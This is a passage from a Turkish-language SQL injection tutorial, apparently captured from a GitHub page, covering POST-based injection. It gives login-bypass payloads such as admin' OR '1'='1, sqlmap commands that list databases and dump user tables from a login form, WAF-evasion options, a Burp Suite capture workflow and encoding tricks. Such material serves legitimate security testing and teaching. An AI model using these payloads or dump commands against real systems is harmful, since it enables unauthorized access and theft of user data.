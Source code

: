 Veya:
```sql
plaintext
```
username=admin' OR '1'='1
password=anything

📌 Açıklama: Eğer giriş başarılı olursa, 1=1 her zaman TRUE döndüğünden, SQL sorgusu kullanıcıyı yetkili gibi kabul edebilir.

3️⃣ SQLmap ile POST SQLi Testi
```sql
SQLmap, POST isteklerini test etmek için mükemmel bir araçtır.
```
🔹 1. Basit Test (POST SQLi)
Öncelikle, SQLmap ile POST isteğini test edelim:
```sql
bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs

✅ --dbs: Veri tabanı adlarını listeler.
```
🔹 2. Kullanıcıları Çekme
Eğer açık varsa, kullanıcı adlarını çekmek için:
```sql
bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dump
```
🔹 3. WAF Bypass (Güvenlik Duvarı Aşma)
Eğer güvenlik duvarı varsa, şu parametreler eklenebilir:
```sql
bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --random-agent --tamper=space2comment

✅ --random-agent: Rastgele User-Agent kullanarak tespit edilmesini zorlaştırır.
✅ --tamper=space2comment: WAF tarafından filtrelenen boşlukları yorum satırına çevirir.

```
4️⃣ Proxy Kullanarak SQLmap ile POST SQLi Testi
Bazı durumlarda, siteyi Burp Suite üzerinden proxy ile analiz etmek daha iyi olur.
Burp Suite'i açın ve proxy dinleme portunu ayarlayın (Örn: 8080).
Tarayıcı üzerinden giriş yapın ve POST isteğini Intercept edin.
POST isteğini kaydedin ve SQLmap kullanarak test edin:
```sql
bash
sqlmap -r request.txt --dbs
```
📌 Açıklama: request.txt dosyası Burp Suite’ten kaydedilen ham HTTP isteğini içerir.

5️⃣ POST SQL Injection Bypass Teknikleri
Eğer bazı filtreleme mekanizmaları varsa, şu yöntemler kullanılabilir:
🔹 1. Karakter Kaçırma (Encoding)
Bazı filtreleme sistemleri belirli karakterleri engelleyebilir. Bunları aşmak için:
URL Encoding: %27 (' yerine)
Hex Encoding: 0x61 (a yerine)
Base64 Encoding
Örnek:
```sql
plaintext
username=admin%27+OR+1%3D1+--

```
🔹 2. Inline Query Manipülasyonu
Bazı sistemler tırnakları engeller, bu yüzden şu yöntemlerle test edilebilir:
```sql
sql
username=admin' OR '1'='1'--
```
